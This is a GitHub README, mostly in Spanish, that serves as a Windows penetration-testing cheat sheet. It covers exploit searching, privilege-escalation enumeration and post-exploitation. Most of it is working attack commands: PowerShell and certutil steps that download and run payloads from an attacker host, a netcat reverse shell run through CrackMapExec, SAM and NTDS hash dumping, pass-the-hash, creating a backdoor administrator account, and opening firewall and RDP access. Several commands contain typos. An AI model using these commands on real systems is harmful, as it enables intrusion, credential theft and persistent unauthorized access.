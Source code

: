# WinPTCS
Windows Pentest Cheat Sheet -  This is a basic level pentest assorted commads and snippts

___________
# Basic Windows Pentesting

## Buscando Vulnerabilidades
### searchsploit
Buscando en la DDBB de vulneravilidades con searchsploit. Probar siglas y combinaciones de nombre de servicios
```bash
searchsploit update
searchsploit <ServiceName>
searchsploit -x <XploitPath>       #Examina el exploit
searchsplot -m <XploitPath>        #Crea una copia del sploit en el directorio actual
```

## File and Data Transfering
Downloading a ps script to memory (Nishang for instance. Start /b to send the process to background
It's better to use a native process so we have to check it out.
```bash
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://<myIP>:<myPort>/ps.ps1") # 
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<myIP>:<myPort>/ps.ps1")
```
### Downloading files from cmd
```bash
certutil.exe -f -urlcache -split http://<myIP>:<myPORT>/binary.exe nbinary.exe
powershell -c "(New-Object System.Net.WebCliente).donwnloadFile('http://<myIP>:<myPORT>/binary.exe', 'C:\Windows\Tasks\binary.exe')
powershell Invoke-WebRequest "http://<myIP>:<myPORT>/binary.exe" -OutFile "C:\Windows\Tasks\binary.exe"
iwr -uri http://10.10.14.8/nc.exe -OutFile nc.exe
```
### Downloading files with SAMBA
```bash
impacket-smbserver smbFolder $(pwd) -smb2support   #En mi maquina
```
Creamos un recurso compartido y copiamos
```posh
New-PSDrive -Name "SharedFolder" -PSProvider "FileSystem" -Root "\\<myIP>\smbFolder    #En PowerShell
dir SharedFolder:\
copy SharedFolder:\binary.exe C:\Windows\Tasks\binary.exe
copy localFile.txt \\<myIP>\smbFolder\localFile.txt
```
## Reconocimeinto y busqueda de exploits
Hacemos git clone a PowerSploit y dentro del modulo/carpeta Privesc
```bash
batgrep "function" PowerUp.ps1   #Ver funciones del script
echo "Invoke-AllChecks" >> PowerUp.ps1
```
Descargamos el script a la maquina para que se ejecute y esperamos la salida.
### Weseng
Clonamos weseng (Windows Exploit Suggester) para buscarle vulnerabilidades a la salida de SystemInfo
```bash
python wes.py systemInfoOutput.txt
python wes.py systemInfoOutput.txt -i "Elevation of privilege"
```
### Windows-Sploit-Suggester AonCyberLabs
Clonamos Windows-Exploit-Suggester de AonCyberLabs
```zsh
python windows-exploit-suggester.py --update   #Descarga un xlsx con registros
python windows-exploit-suggester.py --database <unafecha>.xlsx --systeminfo systemInfoOutput.txt
```
Tambien utilizar WinPEAS 
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

## Persistencia y PostExplotacion
Teniendo privilegios de root, creamos un usuario y lo incluimos en el grupo de administradores
```zsh
net user maopiccoto maopiccoto123! /add
net localgroup Administrators maopiccoto /add
```
### NetTweaks && Firewall
Abriendo puertos y autorizando in/out dataTraffic en el Firewall
```posh
netsh advfirewall add rule name="Samba Port" portocol=TCP dir=in localport=445 action=allow
netsh advfirewall add rule name="Samba Port" portocol=TCP dir=in localport=445 action=allow
netstat -nat
```
### CrackMapExec
La idea es que al conectarnos regrese el mensaje Pwn3d!
```bash
cme smb <remoteIP> -u '<userName>' -p '<passwd>'
```
Lo ponemos a ejecutar comandos
```bash
cme smb <remoteIP> -u '<userName>' -p '<passwd>' -x 'whoami'
cme smb <remoteIP> -u '<userName>' -p '<passwd>' -x '\\<myIPsmbShared>\smbFolder\nc.exe -e cmd <myIP> <myPORT>'
cme smb <remoteIP> -u '<userName>' -p '<passwd>' --sam   #dumpea hashes
cme smb <remoteIP> -u '<userName>' -p '<passwd>' --ntds vss  #dupea mas hashes
```
#### PASS the HASH
Entonces podriamos hacer passTHEhash
```bash
cme smb <remoteIP> -u 'Administrator' -H 'xxxxxxx:ffffffff'
```
#### pth-winexe
Sirve para obtener una consola haciendo passTHEhash. WORKGROUP=Dominio
```bash
pth-winexe -U WORKGROUP/Administrator%<hashNTLM> //<remoteIP> cmd.exe
```
#### Obteniendo Hashes manualmente [pwdump]
Los hashes NTLM se guardan en 2 archivos: SAM & SYSTEM. Los copiamos, no podemos leerlos directamente porque siempre estan siendo utilizados por el sistema.
```bash
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup
```
En nuestra maquina utilizamos pwdump para revelar los hashes
```bash
pwdump SYSTEM SAM
```
### Impacket
Para saltar de un usuario privilegiado, en Administrators, a NT authority\system. Clonamos el repo y corremos install.py
```bash
psexec.py WORKGROUP/maopiccoto:maopiccoto123@<remoteIP> cmd.exe
```
Segun la respuesta del psexec tendremos que crear un recurso compartido
```posh
net share myFolder=C:\Widnows\Temp /GRANT:Administrators,FULL
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilerPolicy /t REG_DWORD /d 1 /f
```
### Habilitando el RDP
Primero creamos las reglas de firewall luego habilitamos el RDP en el registro
```posh
netsh advfirewall firewall add rule name="RDP Port" protocol=TCP dir=in localport=3389 action=allow
netsh advfirewall firewall add rule name="RDP Port" protocol=TCP dir=out localport=3389 action=allow

red add "HKEY_LOCAL_MAHCINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSconnections /t REG_DWORD /d 0 /f
```
Ya podriamos utilizar xfreerdp para conectarnos por remoto
```bash
xfreerdp /u:maopiccoto /d:WORKGROUP /p:maopiccoto123 /v:<remoteIP>
```
---
### Mapear recursos compartidos por SAMBA a nivel de red
```bash
smbmap -H <ipRemote> -u "null"
cmbclient -L <ipRemote> -N
```


